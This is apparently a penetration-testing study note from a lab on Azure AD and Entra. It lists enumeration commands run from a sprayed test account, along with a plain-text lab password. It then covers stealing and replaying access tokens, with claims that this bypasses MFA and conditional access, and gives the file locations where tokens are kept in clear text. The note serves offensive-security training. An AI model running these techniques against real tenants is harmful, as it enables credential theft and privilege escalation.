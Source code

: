 *_Got creds for a test user by password spray._
#### AzureAD
We have compromised a user "Test", so first thing after [logging in](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module); lets see what **user permissions** we have - in Azure this will be groups and roles:
```
Get-AzureADUser -SearchString 'test'
Get-AzureADUserMembership -ObjectId test@defcorphq.onmicrosoft.com
```
Can we see much more information about this **group**? ```Get-AzureADGroup -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed | fl *```
**Who** else is in this **group**? (everyone):  ```Get-AzureADGroupMember -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed```


Ok lets look for **admin users**:
```
Get-AzureADUser -SearchString 'admin' | Get-AzureADUserMembership
Get-AzureADUserMembership -ObjectId admin@defcorphq.onmicrosoft.com
```
- I wonder who else is in the Global Admins group? ```Get-AzureADGroupMember -ObjectId 9240b75e-823c-4c02-8868-a00ddbeb3fa1```

_in normal environments we would expect to see some Service Principals (that is an application service account) running as Global Administrator - if we were to compromise that object, or a user that is the owner of that object, we could get GA!_

- Lets check if we are the **owner of a device** (and therefore localadmin)? ```Get-AzureADUserOwnedDevice -ObjectId test@defcorphq.onmicrosoft.com```
- lets see what **devices** are ACTUALLY being **used** (i.e., active): ```Get-AzureADDevice -All $true | ?{$_.ApproximateLastLogonTimeStamp -ne $null}```
- OK now lets see if there are any **custom roles**? ```Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False}``` (May need to use preview module)
- And lets see the **users who have Global admin** role: ```Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember```
#### MG Module
You could also use the MG Module instead if you wanted:
```
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneC@nGu355ForT3stUs3r" -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd) 
Connect-AzAccount -Credential $creds 

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
```
```
Get-MgUser -All
Get-MgUser -All | select UserPrincipalName
Get-MgGroup -All
Get-MgDevice
```

To get all the Global Administrators:
```
$RoleId = (Get-MgDirectoryRole -Filter "DisplayName eq 'Global Administrator'").Id
(Get-MgDirectoryRoleMember -DirectoryRoleId $RoleId).AdditionalProperties
```

list all custom directory roles:
```Get-MgRoleManagementDirectoryRoleDefinition | ?{$_.IsBuiltIn -eq $False} | select DisplayName```

#### az powershell

- Ok now lets enumerate all **resources** visible to the current user:
```Get-AzResource```

- And enumerate all **Azure RBAC role assignments** for all the resources the current user has read access to (NOT just the users role assignments):
```Get-AzRoleAssignment```

- lets output that to a table for ease of use:
```
Get-AzRoleAssignment | select DisplayName, RoleDefinitionName, ObjectType, CanDelegate
```

- Ok now lets look at **Virtual Machines** the user has access to: ```Get-AzVM | fl *```
- And any **Apps**: ```Get-AzWebApp```
  - We could display just **WebApp/Traditional App**:
```Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}```
  - Display **functional App**:
```Get-AzFunctionApp```
- List a table of all visible apps:
```
Get-AzWebApp | select name, HostNames, kind, state, identity
```
- Also **Storage**:
```Get-AzStorageAccount | fl```
- And **KeyVault**:
 ```Get-AzKeyVault```

#### az cli
a good one to use from az cli is the **whoami** equivalent:-
```az ad signed-in-user show```

## Tokens
- Steal tokens (If you are signed in you can dump it with ```(Get-AzAccessToken).token```)
- reuse instead of creds (similar to TGT ticket reuse with Rubeus): ```Connect-AzAccount -AccessToken $token -AccountId test@defcorphq.onmicrosoft.com```
- Test access to resources: ```Get-AzResource```

_with token replay you evade conditional access policy, and almost always mfa and entra id protect as well_
(because its not a sign-in!) all those work only for signin, this is after, direct to api - 
```Web API Validates access token and returns secure data to web server app```

lets get graph token:

```
Get-AzAccessToken -ResourceTypeName MSGraph
disConnect-AzAccount
Connect-AzAccount -AccountId test@defcorphq.onmicrosoft.com -AccessToken $token -MicrosoftGraphAccessToken eyJ0eXA...
```

**best target is managed identity access token - not protected by CAE**

### Steal token
When on a machine look in - ```C:\Users\[username]\.Azure```
 - **az cli** (before 2.30.0 – January 2022) stores access tokens in clear text in ```accessTokens.json```
    - You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
    - ```azureProfile.json``` in the same directory contains information about subscriptions.
 -  **Az PowerShell** (older versions) stores access tokens in clear text in ```TokenCache.dat```
    -  It also stores ServicePrincipalSecret in clear-text in AzureRmContext.json if a service principal secret is used to authenticate.
 -  Another interesting method is to take a **process dump of PowerShell** and looking for tokens in it!
    -  Users can save tokens using Save-AzContext, look out for them! Search for **Save-AzContext** in PowerShell console history!

